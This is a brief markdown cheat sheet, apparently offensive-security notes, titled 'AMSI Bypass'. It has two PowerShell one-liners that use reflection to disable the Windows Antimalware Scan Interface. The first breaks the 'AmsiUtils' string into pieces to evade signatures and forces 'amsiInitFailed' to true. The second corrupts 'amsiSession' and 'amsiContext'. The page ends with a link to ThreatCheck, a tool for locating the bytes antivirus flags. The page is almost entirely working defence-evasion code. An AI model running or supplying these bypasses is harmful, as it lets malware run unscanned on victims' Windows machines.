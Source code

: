 

# AMSI Bypass

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell


```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils';$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u));$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static');$field.SetValue($null,$true)
```


```powershell
$haha = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$haha)
```



# ThreatCheck

https://github.com/rasta-mouse/ThreatCheck